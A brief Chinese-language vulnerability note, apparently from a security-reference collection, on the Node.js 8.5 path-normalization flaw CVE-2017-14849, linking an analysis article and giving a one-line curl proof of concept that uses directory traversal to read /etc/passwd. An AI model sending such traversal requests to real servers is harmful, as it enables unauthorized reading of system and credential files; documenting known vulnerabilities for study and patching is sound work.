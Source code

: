 ### nodejs 8.5 normalize 路径解析错误漏洞

参考文章

* [Node.js CVE-2017-14849 漏洞分析](https://security.tencent.com/index.php/blog/msg/121)

Poc - 保证两边的 `/../` 数量一样

```
curl 127.0.0.1/js/../../../../../../a/../../../../../../etc/passwd
```

